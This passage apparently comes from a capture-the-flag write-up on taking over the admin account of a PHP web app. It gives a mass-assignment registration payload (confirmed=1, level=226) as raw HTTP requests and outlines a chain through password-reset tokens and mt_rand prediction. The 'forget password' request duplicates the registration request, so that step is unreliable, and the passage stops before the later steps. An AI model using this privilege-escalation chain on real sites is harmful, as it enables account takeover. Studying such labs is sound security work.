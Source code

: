 ```php
```

So for now we have some attack vector for admin account:

* mass assigment to register user with `confirmed=1` and `level=226`
* use forget password functionality for created user
* read reset password token&#x20;
* run mt\_rand braking scripts
* exploit `wrong_reset_token.php` and obtain admin account

## Exploit

### User register

```http
POST /register.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Origin: http://20.55.48.101
Connection: close
Referer: http://20.55.48.101/register.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1


email=soviet2%40soviet.pl&password=sovietsoviet&register-submit=&confirmed=1&level=226
```

### Forget password functionality

```http
POST /register.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Origin: http://20.55.48.101
Connection: close
Referer: http://20.55.48.101/register.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1


email=soviet2%40soviet.pl&password=sovietsoviet&register-submit=&confirmed=1&level=226
```
